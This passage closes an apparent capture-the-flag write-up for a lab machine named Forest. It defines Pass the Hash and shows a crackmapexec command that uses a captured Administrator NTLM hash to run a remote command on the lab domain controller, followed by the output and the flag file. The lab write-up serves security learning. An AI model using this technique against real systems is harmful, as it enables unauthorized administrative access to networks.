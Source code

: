 Then, we can use this NTLM hash with `crackmapexec` to perform a *Pass the Hash* attack and read the **second flag** from the domain controller.

Note that **Pass the hash** (or *PtH*) is a method of authenticating as a user without having access to the user's cleartext password. This method bypasses standard authentication steps that require a cleartext password, moving directly into the portion of the authentication that uses the password hash.

```bash                        
$ crackmapexec smb 10.129.95.210 -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6 -d htb.local -x "dir C:\Users\Administrator\Desktop" 
SMB         10.129.95.210   445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.129.95.210   445    FOREST           [+] htb.local\Administrator:32693b11e6aa90eb43d32c72a07ceea6 (Pwn3d!)
SMB         10.129.95.210   445    FOREST           [+] Executed command 
SMB         10.129.95.210   445    FOREST           Volume in drive C has no label.
SMB         10.129.95.210   445    FOREST           Volume Serial Number is 61F2-A88F
SMB         10.129.95.210   445    FOREST           
SMB         10.129.95.210   445    FOREST           Directory of C:\Users\Administrator\Desktop
SMB         10.129.95.210   445    FOREST           
SMB         10.129.95.210   445    FOREST           09/23/2019  01:15 PM    <DIR>          .
SMB         10.129.95.210   445    FOREST           09/23/2019  01:15 PM    <DIR>          ..
SMB         10.129.95.210   445    FOREST           02/04/2022  09:24 AM                34 root.txt
SMB         10.129.95.210   445    FOREST           1 File(s)             34 bytes
SMB         10.129.95.210   445    FOREST           2 Dir(s)  10,443,857,920 bytes free
```

Awesome! I hope you enjoyed it, I know I did :)
